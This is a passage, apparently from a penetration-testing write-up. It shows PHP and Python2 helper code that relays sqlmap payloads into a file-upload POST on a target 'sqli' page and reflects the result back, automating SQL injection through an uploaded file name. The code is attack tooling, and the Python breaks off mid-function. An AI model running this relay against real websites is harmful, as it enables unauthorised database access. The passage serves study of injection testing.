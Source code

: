 ```php
// POST HEADERS
$headers = array(
    "Expect: 100-continue",
    "Content-Type: multipart/form-data; boundary={$boundary}, // change Content-Type
);

/*********************
 POST MAKER!
*********************/
// CURL Handler
$ch = curl_init();
//CURL options
// Set CURL to POST
curl_setopt($ch, CURLOPT_POST, true);
// CURL POST URL
curl_setopt($ch, CURLOPT_URL, $injectionURL);
// We do not want to reflect the output of the POST to sqlmap
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
// Headers
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
// Body
curl_setopt($ch, CURLOPT_POSTFIELDS, $postbody);

// Do the actual POST
$result = curl_exec($ch);
curl_close($ch);

/*************************************
 REFLECT THE RESULT FOR AUTOMATION
*************************************/
$injectionresponse = file_get_contents($resultsURL);
echo $injectionresponse;
```
A python2 equivalent can look like this:
```python
from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import parse_qs
import cgi
import requests
import json
import base64
import urllib
import re

class GP(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
    def do_HEAD(self):
        self._set_headers()
    def do_GET(self):
        self._set_headers()

        # Reading payload
        query = parse_qs(self.path[2:])
        payload = query["payload"][0]
        
        # POST file (CHANGE url_Website)
        url = 'http://url_website/sqli/public/create.php'

        # Uncomment to use a real file (name it 1.jpg in the server.py folder)
        #files = {'file': (payload,open('1.jpg','rb'))}
```